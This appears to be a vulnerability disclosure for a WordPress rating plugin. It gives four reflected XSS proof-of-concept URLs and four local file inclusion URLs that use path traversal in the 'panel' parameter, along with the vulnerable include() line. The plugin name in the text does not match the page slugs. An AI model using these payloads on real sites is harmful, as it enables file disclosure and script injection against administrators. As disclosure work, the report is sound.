 Well ,sir ,I just found some XSS bugs and LFI(Local File Include) bug here.

#### XSS

Here different php files suffer from the bug, exactly, some other files also don't filter well.

##### XSS1

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-information&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss%2F)%3E%3C%27%22
```

##### XSS2

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-about&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss2%2F)%3E%3C%27%22
```


##### XSS3


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-transfer&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss3%2F)%3E%3C%27%22
```


##### XSS4


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-tools&panel=x
```

Weak para poc：

```
panel=%27%22%3E%3Csvg%2Fonload%3Dconsole.log(%2Fxss4%2F)%3E%3C%27%22
```


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/yet-another-stars-rating/xss.png)

### LFI

Here we use the bug to include the "phpinfo.php" file in the wwwroot, exactly, we can include or read any file in the webserver.

##### LFI1 poc

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-information&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/information.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```

##### LFI2 poc

```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-about&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/about.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```


##### LFI3 poc


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-transfer&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/transfer.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```


##### LFI4 poc


```
http://localhost/wordpress/wp-admin/admin.php?page=gd-rating-system-tools&panel=..%2F..%2F..%2F..%2F..%2F..%2Fphpinfo
```

Weak file：

```
/forms/tools.php
```

Weak code:
```
include(GDRTS_PATH.'forms/panels/'.$_panel.'.php');
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/yet-another-stars-rating/lfi.png)


Well,  by the way, I just test these bugs in the wordpress 4.9.1 and the latest version of the wp-plugin yet-another-stars-rating.